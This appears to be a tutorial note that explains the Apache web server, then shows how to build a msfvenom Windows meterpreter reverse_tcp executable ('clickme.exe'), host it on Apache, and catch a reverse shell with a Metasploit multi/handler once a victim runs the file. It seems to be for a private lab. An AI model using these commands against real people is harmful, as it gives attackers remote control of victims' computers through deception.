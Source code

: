 Apache is one of the go-to web servers for website owners, developers, and even hosting providers, dominating the market share by 33% across all websites. Apache is a free and open-source software that allows users to deploy their websites on the internet. It is one of the oldest and most reliable web server software maintained by the Apache software foundation. 
File Servers, database servers, mail servers, and web servers use different kinds of server software. Each of these applications can access files stored on a physical server and use them for various purposes. Web servers serves websites on the internet. Web servers acts as a middleman between the server and client machines. It pulls content from the server on each user request and delivers it to the web. 
Although we call Apache a web server, it is not a physical server, but rather a software that runs on an HTTP server. Its job is to establish a connection between a server and the browsers of website visitors (Firefox, Google Chrome, Safari, etc.) while delivering files back and forth between them (client-server structure). The Apache software is also compatible with any operating system, from Windows to Unix. 
When a visitor wants to load a page on your website, for instance, the homepage or your “About Us” page, their browser sends a request to your server, and Apache returns a response with all the requested files (text, images, etc.).The server and the client communicate through the HTTP protocol, and the Apache web server is responsible for the smooth and secure communication between the two machines.
Apache is highly customizable, thanks to its open-source infrastructure. Due to this, web developers and users can adapt its source code according to the type of website they’re creating. 

In order to start the Apache server we have to type in $`service apache2 start`. In order to check the status $`service apache2 status`. The folder where Apache2 is located is in the $`/var/www/html` This is where the Apache server sits in Kali Linux. Now if you were to go to the browser and type in your Kali's ip address, then it should take you to the Apache Default page. 

Now we will need to create a payload $`msfvenom -p(p for payload) windows/meterpreter/reverse_tcp lhost=10.0.2.15 lport=5555 -f(file extension) exe -o(output) clickme.exe`. THe payload has been created, if we type the ls command, we can see the payload that we just created. Now we need to setup a listener in msfconsole. 

In msfconsole, we will type in $`use exploit/multi/handler`. Once we setup our listener we will need to see waht variables we will need to set in order to get a shell. $`options` We will set the $`LHOST` and the $`LPORT`. After this we have to set payload $`set payload windows/meterpreter/reverse_tcp`. Now all of this is done, we can hit the $`run` command. 

After we hit the run command it is waiting on the victim to click the link we want it to click. Once we put the $`10.0.2.15/clickme.exe` in the address bar. It will open a pop-up because the .exe file is not certified. The Windows security system will kick in and ask us if we want to open it and as soon as the victim says Yes. Voillaaaaaaa. Shell. 

![clickme](https://user-images.githubusercontent.com/93686063/202246280-df2d0074-ea7c-4303-8e90-6aab17d8bc19.JPG)

